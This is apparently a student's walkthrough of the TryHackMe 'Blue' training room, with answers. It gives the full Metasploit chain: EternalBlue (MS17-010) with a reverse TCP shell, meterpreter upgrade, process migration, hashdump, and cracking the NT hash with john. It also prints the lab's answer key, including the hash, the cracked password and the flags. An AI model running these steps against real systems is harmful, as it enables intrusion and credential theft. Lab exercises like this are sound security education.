# Blue

Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

[Link](https://tryhackme.com/room/blue)

## _**1: Recon**_

Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. **This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused.** 

_Art by one of our members, Varg - [THM Profile](https://tryhackme.com/p/Varg) - [Instagram](https://www.instagram.com/varghalladesign/) - [Blue Merch](https://www.redbubble.com/shop/ap/53637482) - [Twitter](https://twitter.com/Vargnaar)_

  

_Link to Ice, the sequel to Blue: [Link](https://tryhackme.com/room/ice)_

_You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)_

\-----------------------------------------

  

The virtual machine used in this room (Blue) can be downloaded for offline usage from [https://darkstar7471.com/resources.html](https://darkstar7471.com/resources.html)

  

_Enjoy the room! For future rooms and write-ups, follow [@darkstar7471](https://twitter.com/darkstar7471) on Twitter._

_**Questions**_

Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)

- `nmap -sV -sC --script vuln -oN <output file> <ip>`
- `nmap -sV -sC --script vuln -oN blue.nmap 10.10.150.92`
- Hint: `nmap -sV -vv --script vuln TARGET_IP`

How many ports are open with a port number under 1000?

- 3



What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

- ms17-010



## _**2: Gajin Access**_

Exploit the machine and gain a foothold.

**Questions**

Start [Metasploit](https://tryhackme.com/room/rpmetasploit)

- from terminal `msfconsole`

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

- `search ms17`
- `search eternal`
- exploit/windows/smb/ms17_010_eternalblue



Show options and set the one required value. What is the name of this value? (All caps for submission)

- `info exploit/windows/smb/ms17_010_eternalblue`
- `use exploit/windows/smb/ms17_010_eternalblue` then `show options`
- RHOSTS
- `set rhosts <ip>`
- `set rhosts 10.10.150.92`



Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

`set payload windows/x64/shell/reverse_tcp`



With that done, run the exploit!

- `run` or `exploit`



Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 



## _**3: Esclate**_

Escalate privileges, learn how to upgrade shells in metasploit.

**Questions**

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

- `sessions -u 1` is the easy way
- `use post/multi/manage/shell_to_meterpreter`

Select this (use MODULE_PATH). Show options, what option are we required to change?

- `show options`
- SESSION



Set the required option, you may need to list all of the sessions to find your target here. 

- `set session 1`

Run! If this doesn't work, try completing the exploit from the previous task once more.

- `run`



Once the meterpreter shell conversion completes, select that session for use.

- `sessions`
- `sessions -i 2`



Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

- `getuid`
- `shell`
- `whoami`



List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

- Look for spoolsv.exe
- 1280 is what I have, this will vary
- `migrate <PID>`
- `migrate 1280`



Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 



## _**4: Cracking**_

Dump the non-default user's password and crack it!

**Questions**

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

- `hashdump`
- Jon



Copy this password hash to a file and research how to crack it. What is the cracked password?

- Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
- `john jon.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt`
- `john jon.hash --format=NT --show`
- Jon:alqfna22:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
- alqfna22



## _**5: Find flags!**_

Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!

  

\-----------------------------------------------------------------

  

_Completed Blue? Check out Ice: [Link](https://tryhackme.com/room/ice)_

_You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)_

**Questions**

Flag1? This flag can be found at the system root. 

- `pwd` then `cd ..` then `cd ..` then `pwd` then `ls` then `cat flag1.txt`
- flag{access_the_machine}



Flag2? This flag can be found at the location where passwords are stored within Windows.

*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 

- `cd windows` `cd system32` `cd config` `pwd` `ls`
- `cat flag2.txt`
- flag{sam_database_elevated_access}




flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

- `cd ..` `cd ..` `cd ..` `cd users` `ls` `cd jon` `cd documents` `ls`
- `cat flag3.txt`
- flag{admin_documents_can_be_valuable}



